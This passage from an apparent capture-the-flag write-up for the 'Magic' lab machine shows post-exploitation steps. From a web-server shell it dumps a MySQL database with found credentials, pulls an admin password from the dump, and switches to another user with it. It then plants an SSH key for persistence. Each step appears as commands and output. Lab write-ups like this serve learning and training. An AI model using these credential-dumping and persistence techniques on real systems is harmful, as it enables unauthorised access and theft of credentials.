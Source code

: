 I go ahead and dump the whole database using those credentials I found.

```bash
www-data@ubuntu:/dev/shm$ mysqldump -u theseus -p Magic > dump.sql

mysqldump -u theseus -p Magic > dump.sql
Enter password: iamkingtheseus

www-data@ubuntu:/dev/shm$ ls -l
ls -l
total 4
-rw-r--r-- 1 www-data www-data 1984 Jun 14 14:33 dump.sql
```

I enter the password `iamkingtheseus` when prompted.
I copy the database dump locally and begin inspecting it.
I find admin credentials, and, based on the password content, I assume this may also be the `theseus` user's password.

```sql
LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
/*!40000 ALTER TABLE `login` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;
```

Using `Th3s3usW4sK1ng`, I can pivot to the `theseus` user with:

```bash
su theseus
```

I can now grab the user flag.
For persistence, I add a public key to `theseus`'s `authorized_keys`, so I can get in with SSH.

```bash
artis3n@kali:~/shares/htb/magic$ ssh theseus@10.10.10.185
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 5.3.0-42-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

29 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Your Hardware Enablement Stack (HWE) is supported until April 2023.
theseus@ubuntu:~$ 
```
